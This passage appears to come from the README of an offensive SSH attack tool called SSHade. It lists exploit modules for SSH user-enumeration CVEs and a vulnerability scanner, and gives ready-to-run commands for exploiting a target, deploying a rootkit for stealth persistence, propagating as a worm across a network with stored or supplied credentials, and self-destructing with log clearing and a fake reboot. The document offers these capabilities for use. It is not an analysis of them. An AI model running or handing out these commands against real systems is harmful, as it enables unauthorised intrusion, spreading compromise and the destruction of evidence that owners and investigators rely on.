**Exploit Modules:**
- **exploits/CVE-2018-15473/exploit.py**: Complete user enumeration exploit with timing analysis
- **exploits/CVE-2016-6210/exploit.py**: User enumeration via timing attack for older versions

**Vulnerability Scanner:**
- **exploits/vulnerability_scanner.py**: Standalone vulnerability scanner with exploit integration

**Standalone Vulnerability Scanner Usage:**
```bash
# List available exploits
python3 exploits/vulnerability_scanner.py --list

# Scan target for vulnerabilities
python3 exploits/vulnerability_scanner.py -t 192.168.1.100 --scan

# Run specific exploit
python3 exploits/vulnerability_scanner.py -t 192.168.1.100 --exploit CVE-2018-15473

# Run exploit with custom userlist
python3 exploits/vulnerability_scanner.py -t 192.168.1.100 --exploit CVE-2018-15473 -u users.txt
```

### 9. Rootkit Deployment
Deploy a rootkit for stealth and persistence on the target system.
```bash
python3 sshade.py -t <target_ip> --rootkit [-p <port>]
```
**Examples:**
```bash
# Deploy rootkit for stealth persistence
python3 sshade.py -t 192.168.1.100 --rootkit

# Custom port rootkit deployment
python3 sshade.py -t 192.168.1.100 --rootkit -p 2222
```

### 10. SSH Worm Propagation
Propagate SSH attacks across a network automatically.
```bash
python3 sshade.py -t <target_ip> --worm [--worm-username <user>] [--worm-password <pass>]
```
**Examples:**
```bash
# Worm propagation with stored credentials
python3 sshade.py -t 192.168.1.100 --worm

# Worm propagation with specific credentials
python3 sshade.py -t 192.168.1.100 --worm --worm-username admin --worm-password password123
```

### 11. Self-Destruct Mechanism
Securely remove all SSHade files and traces.
```bash
python3 sshade.py --self-destruct [--clear-logs] [--fake-reboot]
```
**Examples:**
```bash
# Basic self-destruct
python3 sshade.py --self-destruct

# Self-destruct with log clearing and fake reboot
python3 sshade.py --self-destruct --clear-logs --fake-reboot
```

